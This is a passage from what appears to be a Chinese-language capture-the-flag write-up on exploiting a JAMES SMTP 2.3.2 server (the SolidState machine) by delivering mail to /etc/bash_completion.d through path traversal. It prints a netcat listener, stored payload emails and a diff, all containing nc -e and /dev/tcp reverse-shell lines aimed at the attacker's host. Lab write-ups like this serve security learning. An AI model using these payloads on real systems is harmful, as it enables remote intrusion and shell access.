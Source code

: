     root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.51.
    Ncat: Connection from 10.10.10.51:49650.
    : ambiguous redirect363837383831322D35.Repository.FileStreamStore: line 16: 1
    

但是，当我在脚本中尝试相同的有效负载时，它起作用了。这让我发疯，所以我去看了不同的有效载荷。`searchsploit`

对于帐户收到的每封电子邮件，用户的目录中都有两个文件（对于此用户，即对象存储和流存储）。例如：`/etc/bash_completion.d`

    root@solidstate:/etc/bash_completion.d# ls
    4D61696C313538383231373936323331372D38.Repository.FileObjectStore  4D61696C313538383231373936323331372D38.Repository.FileStreamStore
    

流存储是包含有效负载的存储。它看起来像一封原始电子邮件：

    Return-Path: <'0xdf@10.10.14.47>
    Message-ID: <8915397.8.1588217962318.JavaMail.root@solidstate>
    MIME-Version: 1.0
    Content-Type: text/plain; charset=us-ascii
    Content-Transfer-Encoding: 7bit
    Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost
    Received: from 10.10.14.47 ([10.10.14.47])
              by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 252
              for <../../../../../../../../etc/bash_completion.d@localhost>;
              Wed, 29 Apr 2020 23:39:07 -0400 (EDT)
    Date: Wed, 29 Apr 2020 23:39:07 -0400 (EDT)
    FROM: 0xdf@10.10.14.47
    
    '
    /bin/nc -e /bin/bash 10.10.14.47 443 &
    

为了弄清楚为什么脚本版本有效，而手动版本不起作用，两封电子邮件都放在里面，我运行：`/etc/bash_completion.d``diff`

    root@solidstate:/etc/bash_completion.d# diff 4D61696C313538383231363034383637362D33.Repository.FileStreamStore 4D61696C313538383231363132353231352D34.Repository.FileStreamStore
    1,2c1,2
    < Return-Path: <'0xdf@10.10.14.47>
    < Message-ID: <22085305.3.1588216048676.JavaMail.root@solidstate>
    ---
    > Return-Path: <'@team.pl>
    > Message-ID: <9571892.4.1588216125216.JavaMail.root@solidstate>
    8c8
    <           by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 614
    ---
    >           by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 47
    10,12c10,12
    <           Wed, 29 Apr 2020 23:07:28 -0400 (EDT)
    < Date: Wed, 29 Apr 2020 23:07:28 -0400 (EDT)
    < FROM: 0xdf@10.10.14.47
    ---
    >           Wed, 29 Apr 2020 23:08:45 -0400 (EDT)
    > Date: Wed, 29 Apr 2020 23:08:45 -0400 (EDT)
    > From: team@team.pl
    14,15c14,15
    < '
    < bash -i >& /dev/tcp/10.10.14.47/443 0>&1
    ---
    > '
    > bash -i >& /dev/tcp/10.10.14.47/443 0>&1
    